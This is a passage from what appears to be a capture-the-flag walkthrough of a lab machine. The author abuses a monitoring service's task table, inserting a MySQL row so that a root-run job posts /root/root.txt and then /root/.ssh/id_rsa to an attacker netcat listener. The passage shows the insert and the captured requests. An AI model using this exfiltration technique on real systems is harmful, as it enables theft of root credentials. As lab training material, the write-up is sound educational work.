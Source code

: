 

When the clock reaches the next minute, there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.176 52386
    POST /exfil HTTP/1.1
    Host: 10.10.14.6:9001
    Accept: */*
    Content-type: application/json
    Content-Length: 140

    {"webhookUrl":"http:\/\/10.10.14.6:9001\/exfil","monitoredUrl":"\/root\/root.txt","health":"up","body":"1f58dc17************************\n"}



That's the root flag.

#### Shell

To go for a shell, I'll start by trying to read `/root/.ssh/id_rsa`:



    mysql> insert into tasks (id, webhookUrl, onlyError, monitoredUrl, frequency) values ('223', 'http://10.10.14.6:9001/exfil', 0, '/root/.ssh/id_rsa', '* * * * *');
    Query OK, 1 row affected (0.00 sec)

    mysql> select * from tasks;                                                                                                                
    +-----+------------------------------+-----------+-------------------+-----------+------------+------------+
    | id  | webhookUrl                   | onlyError | monitoredUrl      | frequency | created_at | updated_at |
    +-----+------------------------------+-----------+-------------------+-----------+------------+------------+
    | 223 | http://10.10.14.6:9001/exfil |         0 | /root/.ssh/id_rsa | * * * * * | NULL       | NULL       |
    +-----+------------------------------+-----------+-------------------+-----------+------------+------------+
    1 row in set (0.00 sec)



When the minute turns, I get the key:



    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.176 42814
    POST /exfil HTTP/1.1
    Host: 10.10.14.6:9001
    Accept: */*
    Content-type: application/json
    Content-Length: 1829
    Expect: 100-continue
